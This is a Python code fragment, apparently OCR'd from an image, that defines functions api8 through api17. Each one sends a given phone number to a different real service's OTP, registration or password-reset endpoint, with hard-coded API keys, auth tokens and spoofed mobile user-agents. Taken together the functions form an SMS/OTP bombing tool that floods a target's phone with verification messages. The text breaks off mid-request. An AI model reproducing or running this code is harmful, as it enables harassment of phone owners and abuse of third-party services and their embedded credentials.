     def api8(phone):

        post("https://api.mcshop.com/cognito/me/forget-password", headers={"x-store-token": "mcshop", "user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36",

             "content-type": "application/json;charset=UTF-8", "accept": "application/json, text/plain, */*", "x-auth-token": "O2d1ZXN0OzkyMDIzOTU7YThmNWMyZDE4YThlOTMzOGMyOGMwYWE5ODQwNTBjY2I7Ozs7", "x-api-key": "ZU2QOTDkCV5JYVkWXdYFL8niGXB8l1mq2H2NQof3"}, json={"username": phone})

    def api9(phone):

        post(

            f"https://asv-mobileapp-prod.azurewebsites.net/api/Signin/SendOTP?phoneNo={phone}&type=Register")

    def api10(phone):

        post("https://m.lavagame168.com/api/register-otp", headers={"x-exp-signature": "5ffc0caa4d603200124e4eb1", "user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36",

             "referer": "https://m.lavagame168.com/dashboard/login"}, json={"brands_id": "5ffc0caa4d603200124e4eb1", "agent_register": "5ffc0d5cdcd4f30012aec3d9", "tel": phone})

    def api11(phone):

        post("https://m.redbus.id/api/getOtp?number="+phone[1:]+"&cc=66&whatsAppOpted=true", headers={

             "traceparent": "00-7d1f9d70ec75d3fb488d8eb2168f2731-6b243a298da767e5-01", "user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36"}).text

    def api12(phone):

        post("https://api.myfave.com/api/fave/v3/auth",

             headers={"client_id": "dd7a668f74f1479aad9a653412248b62"}, json={"phone": "66"+phone})

    def api13(phone):

        post("https://samartbet.com/api/request/otp",

             data={"phoneNumber": phone, "token": "HFbWhpfhFIGSMVWlhcQ0JNQgAtJ3g3QT43FRpzKhsvGhoHEzo6C1sjaRh1dSxgfEt_URwOHgwabwwWKXgodXd9IBBtZShlPx9rQUNiek5tYDtfB3swTC4KUlVRX0cFWVkNElhjPXVzb3NWBSpvVzofb1ZFLi15c2YrTltsL0FpGSMVGQ9rCRsacxJcemxjajdoch8sfEhoWVlvbVEsQ0tWfhgfOGth"})

    def api14(phone):

        post("https://www.msport1688.com/auth/send_otp", data={"phone": phone})

    def api15(phone):

        post("http://b226.com/x/code", data={f"phone": phone})

    def api16(phone):

        post("https://ep789bet.net/auth/send_otp", data={"phone": phone})

    def api17(phone):

        post("https://www.berlnw.com/reservelogin", data={"p_myreserve": phone}, headers={"Host": "www.berlnw.com", "Connection": "keep-alive", "Upgrade-Insecure-Requests": "1", "Content-Type": "application/x-www-form-urlencoded", "Save-Data": "on", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "https://www.berlnw.com/myaccount", "Accept-Encoding": "gzip, deflate, br",
